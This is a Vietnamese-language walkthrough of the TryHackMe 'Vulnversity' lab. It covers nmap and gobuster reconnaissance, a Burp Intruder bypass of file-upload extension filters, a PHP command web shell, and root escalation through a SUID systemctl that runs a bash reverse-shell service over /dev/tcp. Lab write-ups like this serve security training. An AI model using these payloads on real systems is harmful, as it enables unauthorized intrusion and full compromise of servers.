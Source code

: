 # Vulnversity

## 1. Deploy machine
-.- Ấn deploy là được mà bro
## 2. Reconnaissance
Thu thập thông tin về machine dùng công cụ network scanning `Nmap` 
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-19-46.png)
```
nmap -sV -sC 10.10.46.196
```
Trong đó :
+ -sV: là xác định các service
+ -sC: chạy các script scan mặc định của nmap
+ -p-400: số port nmap quét
+ -n: không resolve ra dns

Từ đó trả lời các câu hỏi.
+ Scan the box, how many ports are open? : 6
+ What version of the squid proxy is running on the machine? 3.5.12
+ How many ports will nmap scan if the flag -p-400 was used? 400
+ Using the nmap flag -n what will it not resolve? DNS
+ What is the most likely operating system this machine is running? Ubuntu (Thấy các dịch vụ chạy của Ubuntu)
+ What port is the web server running on? : 3333. (Ta thấy có Apache httpd)

## 3. Locating directories using GoBuster
Sử dụng tool `gobuster` để tìm directory của các thư mục.
Trong kali linux thì sẽ có wordlist có sẵn ở thư mục : `/usr/share/wordlists/dirbs/common.txt` (tuy nhiên ở đây mình dùng ubuntu, tải wordlist tại: https://github.com/3ndG4me/KaliLists/tree/master/dirb )

Chạy command : 

```
gobuster dir -u http://10.10.46.196:3333 -w /usr/share/wordlists/dirbs/common.txt
```
Trong đó:
+ -u : target URL
+ -w : địa chỉ wordlist
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-35-10.png)
=> kết quả là tìm được url : `/internal/` => truy cập được trang uploads file
## 4. Compromise the webserver
Sử dụng burpsuite community để bắt request và tìm ra extension có thể upload được file lên, mục đích là upload được file shell lên để RCE.

+ Truy cập trang : http://10.10.46.196:3333/internal
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-38-55.png)
+ Ấn upload file và dừng ở POST request (intercept is on):
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-40-27.png)
+ Chuột phải chọn : `Intruder` (Là trang mà ta có thể bruteforce để tìm ra extension phù hợp) => `Clear$` => bôi đen phần extension của file vừa up lên => `Add$`
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-43-34.png)
+ Trang Payloads : thê những extension : `.php`, `.php2`, `.php3`. `.php5`, `.phtml`
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-44-56.png)
+ Start attack:
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-00-45-31.png)
Chú ý phần kết quả length của `phtml` khác so với phần còn lại (Do trả về chữ success nhỏ hơn chữ Extension not allowed) => có thể upload file `.phtml`

Bước 1 : chuẩn bị file hehe.phtml
```
<?php
    system($_GET('cmd'));
?>
```
Sau khi upload thành công, truy cập bằng đường dẫn :
```
http://10.10.46.196:3333/internal/uploads/hehe.phtml?cmd=cat /etc/passwd
```
Bước 2 : Thực ra phải tải file shell php của tryhackme gợi ý để có thể RCE bằng netcat
+ Tải file và sửa phần 'CHANGE THIS'
+ Sau đó dùng netcat để nghe trên port '1234':
```
nc -lvnp 1234
```
+ Truy cập vào đường dẫn `http://10.10.46.196:3333/internal/uploads/hehe.phtml` để kích hoạt shell.
+ Quay lại trên trình duyệt và gõ  `cat /etc/passwd`
## 5. Privilege Escalation
*Phần này là phần hay nhất :V*

Ngoài các quyền đặc biệt r, w, x còn có `special permission` đó là : SUID, SGID và sticky bits. Trong bài này dùng SUID.

SUID thường được sử dụng trên các file thực thi. Các file nào có bit `s` thì có thể thực hiện với quyền là chủ sở hữu của file đó.
Ví dụ: file sở hữu bởi root và được set SUID bit, thì bất kể ai thực thi file đó luôn chạy dưới quyền root.
+ Câu lệnh để tìm tất cả các file có SUID:
```
find / -perm -u=s -type f 2>/dev/null
```
Ta được kết quả:

![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-01-13-50.png)
+ Và thử :
```
passwd bill
or
passwd
```
Thì không được là do `whoami` đang là www-data, và passwd chỉ có thể dùng được khi bạn à root hoặc là chủ sở hữu của user đó.
=> `/bin/systemctl`

Source chưa các file có thể RCE : https://gtfobins.github.io/

Chạy lệnh ở máy host để lắng nghe ở port 4444:
```
nc -lvnp 4444
```
+ Tạo service chạy dưới systemd với tên `hehe.service`
```
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.46.196/4444 0>&1'
[Install]
WantedBy=multi-user.target
```
    + `/bin/bash -c` : thực thi shell
    + `bash -i >& /dev/tcp/10.10.46.196/4444 0>&1` : Reverse shell (trong reference)
+ Chạy lệnh
```
systemctl enable /tmp/hehe.service
systemctl start hehe.service
```
+ Quay lại máy host :D và :
```
cat /root/root.txt
```
![](https://github.com/dangdh16/OSCP/blob/main/Level_3_/TryHackMe/img/2021-08-31-01-24-08.png)

Done

--- 
> Reference :
> 
Reverse shell : https://www.netsparker.com/blog/web-security/understanding-reverse-shells/
https://hackersploit.org/netcat-tutorials/
https://vinasupport.com/systemd-la-gi-huong-dan-tao-va-quan-ly-systemd-services-tren-linux/
https://gtfobins.github.io/gtfobins/systemctl/
